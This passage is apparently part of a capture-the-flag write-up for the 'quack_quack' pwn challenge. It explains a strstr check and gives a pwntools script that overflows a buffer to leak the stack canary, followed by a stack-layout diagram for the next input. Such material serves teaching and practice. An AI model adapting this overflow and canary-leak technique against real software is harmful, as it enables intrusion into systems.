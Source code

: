 What is `strstr` function does? It just to **find a substring (param2) in the target string (param1)**.

![Quack Quack-01](/images/htb-cyber-apocalypse_pwn1-01.png)

Okay, so our first input will be `"A"*89 + "Quack Quack "` . To get more clear of leaked information, I recommend you to see with pwntools.

1. **Exploit The Binary**

Here's the first script to leak the stack canary.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF('./quack_quack', checksec=0)
context.binary = exe
context.log_level = "DEBUG"

# Start the process.
LOCAL = True
if LOCAL:
    io = exe.process()
else:
    io = remote('94.237.54.232', 39055)

# Prepare the payload for the first input.
payload = b"" # -----------------------< Start payload.
payload += b"A" * 32 # ----------------< Fill the 32 bytes buffer.
payload += b"B" * (89 - 32) # ---------< Overflow until 89 bytes.
payload += b"Quack Quack " # ----------< Pass the strstr condition (12 more bytes).

# Send the payload in the first input.
io.recvuntil(b'> ', timeout=1)
io.sendline(payload)

# Maintain current session.
io.interactive()
```

![Quack Quack-02](/images/htb-cyber-apocalypse_pwn1-02.png)

Now, we successfully leak the canary. But wait, is that the canary start with the **NULL byte** character (`\\x00`)? Yap, that's true, so we need to adjust the output to be stored as canary. For the next input we need to calculate before canary value, so it will not errors or stack smashing detected. Our next input is started from `$rbp-0x60` until **0x6a bytes** or **106 bytes** in decimal. But, we don't need input until the max size, we only need input until `$rbp-0x10` or **88 bytes** more.

```txt
============= STACK LAYOUT =============

[       RET       ] // lives in $rbp+0x8
[    Saved RBP    ] 
[   Stack Canary  ] // lives in $rbp-0x8
[  .............  ] // $rbp-0x10 - Last of second input - 88 bytes
[  .............  ] // $rbp-0x18
[  .............  ] // $rbp-0x20
[  .............  ] // $rbp-0x28
[  .............  ] // $rbp-0x30
[  .............  ] // $rbp-0x38
[  .............  ] // $rbp-0x40
[  .............  ] // $rbp-0x48
[  .............  ] // $rbp-0x50
[  .............  ] // $rbp-0x58
[  .............  ] // $rbp-0x60 - Second input
```